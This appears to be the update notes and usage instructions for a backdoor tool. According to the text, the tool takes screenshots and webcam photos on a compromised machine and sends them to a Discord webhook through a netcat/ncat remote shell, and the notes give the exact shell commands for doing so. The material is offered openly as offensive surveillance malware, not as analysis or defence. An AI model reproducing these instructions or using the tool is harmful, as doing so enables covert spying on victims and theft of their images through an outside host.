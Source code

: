 THIS BACKDOOR IS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied

For Webcam:
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied


NOTE:- This is made for --> NCAT/NETCAT
